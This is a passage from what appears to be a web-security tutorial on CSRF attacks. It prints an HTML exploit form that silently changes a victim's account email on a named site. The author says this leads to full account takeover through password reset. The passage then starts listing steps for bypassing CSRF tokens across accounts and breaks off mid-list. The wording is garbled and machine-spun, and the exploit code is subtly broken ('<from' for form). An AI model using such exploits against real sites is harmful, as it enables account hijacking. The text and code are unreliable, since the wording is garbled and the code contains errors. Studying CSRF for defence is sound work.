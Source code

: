 Link and image tag sources are generally GET request. Making all GET requests harmless eliminates a significant pathway for CSRF attacks.

## CSRF POST Request Attack

GET requests are not by any means the only method for setting off a CSRF attack. An attacker can forge a structure. Strolling through it bit by bit will assist with clarifying how such an attack is organized.

Let's try to understand this method with the actual website.

First, I have created an attacker account and filled out all the forms; check Account Detail info and visit the change email page.

![1](https://i.postimg.cc/1RBjxVnK/1.png)

After visiting the change email page, change the mail id, capture the request, and create a CSRF Exploit.

![2](https://i.postimg.cc/brZCH3yN/3.png)

The CSRF Exploit looks like as given below. I have replaced the email value to setafa3370&#64;sdysofa&#46;com and submitted a request in the victim’s account.

<html>

  <body>
  <script>history.pushState('','','/')</script>
     <from action="https://fd.nlmijn-fd/wizigen/email" method="POST" enctype="multipart/from-data">
        <input type="hidden" name="email" value="setafa3370&#64;sdysofa&#46;com" />
        <input type="hidden" name="confirmEmail" value="setafa3370&#64;sdysofa&#46;com" />
        <input type="submit" value="Submit request" />
     </from>

</body>
</html>

In the following stage, I just forwarded the above request and the exploit worked, so by this exploit changed my email to the victim's email and by using the forgot password method to retrieve the password reset link to my email, and I have complete control over the victim's account.

## Methods to bypass CSRF protection

### Utilizing a CSRF token across accounts

The easiest and deadliest CSRF sidestep is the point at which an application doesn't approve if the CSRF token is attached to a particular account or not and approves the calculation. To approve this

    Login to an application from Account A

    Go to its password change page

    Catch the CSRF token utilizing burp intermediary

    Logout and Login utilizing Account B
